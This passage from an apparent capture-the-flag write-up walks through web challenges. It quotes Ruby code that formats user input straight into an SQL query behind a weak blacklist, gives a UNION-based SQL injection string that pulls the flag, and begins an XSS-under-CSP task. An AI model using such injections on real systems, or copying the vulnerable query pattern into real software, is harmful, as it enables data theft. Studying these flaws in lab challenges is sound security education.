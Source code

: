 Then we only have to change **contents** cookie with our payload :D

## Sea of Quills  ##

![TASK](https://imgur.com/A8C9uwR.png)

As we can see in the source code it's an SQL injection with some filters.

```ruby

post '/quills' do
        db = SQLite3::Database.new "quills.db"
        cols = params[:cols]
        lim = params[:limit]
        off = params[:offset]

        blacklist = ["-", "/", ";", "'", "\""]

        blacklist.each { |word|
                if cols.include? word
                        return "beep boop sqli detected!"
                end
        }


        if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
                return "bad, no quills for you!"
        end

        @row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])

        p @row

        erb :specific
end
```
we can inject the following in cols part to get our flag (after performing the usual steps to find the column and table name)
```
1,flag,2 from flagtable union select 1,2,3 
```

And Bingo we got our flag 

![FLAG](https://imgur.com/RQFlr3j.png)


## nomnomnom ##

![TASK](https://imgur.com/V2LXwDj.png)

It was a client-side task, our goal is to leak the admin page's source code in order to get the flag so we have to find a way and get an XSS. Reviewing the source code we can spot a possible injection sink in the **share name** but unfortunately
the page is protected with a strict CSP , the only way to execute javascript (as far as I know) is using the nonce value which is randomly generated on every request.
